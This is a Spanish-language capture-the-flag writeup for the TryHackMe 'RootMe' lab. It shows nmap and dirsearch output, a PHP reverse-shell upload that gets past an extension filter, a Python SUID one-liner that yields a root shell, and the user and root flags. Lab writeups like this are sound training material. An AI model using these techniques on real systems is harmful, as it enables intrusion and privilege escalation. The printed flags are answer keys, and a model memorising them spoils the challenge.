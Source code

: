 ```yaml
---
layout: post
title: Tryhackme - Rootme
autor: S3cureroy
date: 2023-02-10
categories: [CTF, Tryhackme]
tags: [suid, reverse shell, nmap, python, dirsearch, misconfiguration]
---
```


Hoy traigo un *writeup* de una máquina muy sencilla, que permite seguir practicando la explotación web mediante el uso de la explotación de una mala configuración en un *CMS*, para posteriormente, usar técnicas de escalada de privilegios en entornos Linux, concretamente, la explotación de un binario con permisos SUID.

La máquina está categorizada como fácil, pero en el momento de encararla, no imaginaba que iba a ser tan sencilla.

Destacaría de esta máquina el filtrado de extensiones en la subida de la shell, el cual, como se verá más adelante, no permite subir ciertos ficheros, pero se evade de manera sencilla.

## Enumeración.

Se empieza mediante el uso de la herramienta ```nmap``` usando los parámetros para que muestre las versiones de los programas instalados, y además, se lancen los scripts más usados en entornos Web.

~~~bash
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-21 04:21 EDT
Nmap scan report for 10.10.6.35
Host is up (0.061s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: HackIT - Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.13 seconds
~~~

### Servidor Web.

Al descubrir que se está exponiendo el puerto 80, y que además se trata del conocido servidor Web Apache, se decide enumerar recursos de la página mediante el uso de la herramienta ```dirsearch```.

~~~
04:27:05] Starting: 
[04:27:08] 403 -  275B  - /.htaccess-dev                              
[04:27:08] 403 -  275B  - /.htaccess-local
[04:27:08] 403 -  275B  - /.htaccess-marco
[04:27:08] 403 -  275B  - /.htaccess.old
[04:27:08] 403 -  275B  - /.htaccess.bak1
[04:27:08] 403 -  275B  - /.htaccess.sample
[04:27:08] 403 -  275B  - /.htaccess.save
[04:27:08] 403 -  275B  - /.htaccess.orig
[04:27:08] 403 -  275B  - /.htaccess.txt
[04:27:08] 403 -  275B  - /.htaccessOLD
[04:27:08] 403 -  275B  - /.htaccessBAK
[04:27:08] 403 -  275B  - /.htaccessOLD2
[04:27:08] 403 -  275B  - /.htpasswd-old
[04:27:08] 403 -  275B  - /.httr-oauth
[04:27:09] 403 -  275B  - /.php                                       
[04:27:11] 200 -  616B  - /
[04:27:24] 301 -  306B  - /css  ->  http://10.10.6.35/css/
[04:27:28] 200 -  616B  - /index.php
[04:27:28] 200 -  616B  - /index.php/login/
[04:27:29] 301 -  305B  - /js  ->  http://10.10.6.35/js/
[04:27:32] 301 -  308B  - /panel  ->  http://10.10.6.35/panel/
[04:27:32] 200 -  732B  - /panel/                         
[04:27:35] 403 -  275B  - /server-status
[04:27:35] 403 -  275B  - /server-status/
[04:27:39] 200 -  741B  - /uploads/
[04:27:39] 301 -  310B  - /uploads  ->  http://10.10.6.35/uploads/
                                                                                        
Task Completed
~~~

Se obtiene el código de respuesta 200 en el recurso ```/login```, al cual se accede. 

Dentro, solamente hay un título, sin posibilidad de hacer nada más, al menos aparentemente.

## Acceso inicial.

Dentro de ```/panel``` se pueden subir ficheros que se descubre, pueden ser vistos en el recurso ```/uploads```.

Se sube un fichero que contiene una shell reversa en lenguaje **php** con el nombre ```hola.phtml```. Esto es debido a que la web incorpora un sistema de protección basado en el filtrado de extensiones, y no se puede subir con la extensión del propio lenguaje.

Se abre un puerto con ```nc``` en la máquina atacante, y al abrir el fichero desde el navegador, se obtiene acceso a la máquina.  
![Acceso inicial][rootme1]

Una vez dentro, se obtiene la flag de usuario, alojada en ```/var/www/user.txt```.

~~~bash
cat /var/www/user.txt
THM{y0u_g0t_a_sh3ll}
~~~

## Escalada de privilegios.

Generalmente, se debe enumerar vectores de escalada de privilegios manualmente, sobre todo para aprender como explotar dichos vectores y para generar una metodología, pero en este caso, se transfiere mediante el módulo **SimpleHTTPServer** el script llamado LinEnum que automatiza esta tarea.

El script informa que el binario de python dispone del bit SUID que pueden ser explotados. Por tanto, se busca en la Web [GTFObins](https://gtfobins.github.io/gtfobins/python/) como.  
![Salida Lineum][rootme2]
![GTFObins][rootme3]

Se lanza el comando que indica la web GTFObins en la máquina víctima, después de poner a escuchar un puerto en la máquina atacante.

```python
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
``` 

Entonces se obtiene una shell, que si se lanza un comando ```id``` se puede ver que el euid (*effective uid*) es root.

~~~bash
id
uid=33(www-data) gid=33(www-data) euid=0(root) egid=0(root) groups=0(root),33(www-data)
~~~

Se accede a la flag de root terminando la explotación de la máquina.

~~~bash
cat /root/root.txt
THM{pr1v1l3g3_3sc4l4t10n}
~~~

[rootme1]: https://i.imgur.com/FBlxsxX.png
[rootme2]: https://i.imgur.com/F9EmKQw.png
[rootme3]: https://i.imgur.com/uQVCB1u.png


